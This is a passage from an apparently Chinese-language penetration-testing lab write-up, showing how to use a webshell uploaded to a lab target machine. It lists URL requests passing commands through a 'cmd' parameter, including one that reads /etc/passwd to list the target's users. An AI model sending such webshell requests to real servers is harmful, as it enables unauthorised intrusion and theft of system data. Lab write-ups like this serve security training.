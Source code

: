 
### 6. 测试WebShell
* 利用cmd执行任意命令利用脚本
```
196.168.56.4/admin/uploads/12345.php3?cmd=uname
```

![](images/cmd.PNG)

* ls获取当前目录的内容 
```
196.168.56.4/admin/uploads/12345.php3?cmd=ls
```

![](images/ls.PNG)

* 获取靶机系统用户列表
```
196.168.56.4/admin/uploads/12345.php3?cmd=cat /etc/passwd
```
注意有一个空格

![](images/靶机用户列表.PNG)

